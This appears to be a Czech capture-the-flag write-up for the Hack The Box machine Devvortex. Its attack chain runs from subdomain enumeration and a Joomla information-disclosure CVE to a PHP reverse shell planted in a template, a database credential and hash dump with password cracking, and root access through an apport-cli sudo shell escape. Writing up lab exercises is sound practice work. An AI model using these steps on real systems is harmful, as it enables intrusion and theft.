 # Devvortex

**Reko**\
**-**&#x6E;map = 80, 22\
-gobuster DIR = ![](../../.gitbook/assets/obrazek.png)



-gobuster VHOST (nefungovalo)

<pre><code><strong>gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
</strong></code></pre>

-ffuf&#x20;

```
ffuf -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host:FUZZ.devvortex.htb" -fs 154
```

-zjištěna doména dev.devvortex.htb -> přidat do /etc/hosts

-znovu **dir gobuster** na danou doménu -> **/administrator**\
\
-joomla version -> /administrator/manifests/files/joomla.xml -> 4.2.6

-CVE na 4.2.8 => bude platit i pro 4.2.6 ([https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752))

-**pro instlaci věcí k ruby přepnout na root**

**-**&#x65;xploitem získané údaje k administratorovi&#x20;

U: lewis \
P: lewis

-úprava template, vložení PHP reverse shellu (system-template-error.php)\
-netcat listener + curl -s http://dev.devvortex.htb/administrator/templates/atum/login.php (nebo přistoupit napřímo)

**Spuštění mysql v reverse shellu**\
mysql -u lewis -p joomla     (u = username, p = databáze)\
Password: P4ntherg0t1n5r3c0n##

show databases;\
show tables;\
select \* from sd4fg\_users => hash uživatele logan $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12\
\
-cracknuto johnem =>

logan\
tequieromucho

-user flag v home

-sudo-l => /usr/bin/apport-cli (privilage esc?)

CVE = >[https://nvd.nist.gov/vuln/detail/CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)

PoC/Exploit => [https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb)

-zobrazení .crash souboru => sudo apport-cli /var/crash/XY.crash\
-V (viev report)\
-s vykřičníkem lze provádět commandy, které se provádí jako root (!id, !cat /root/root.txt)
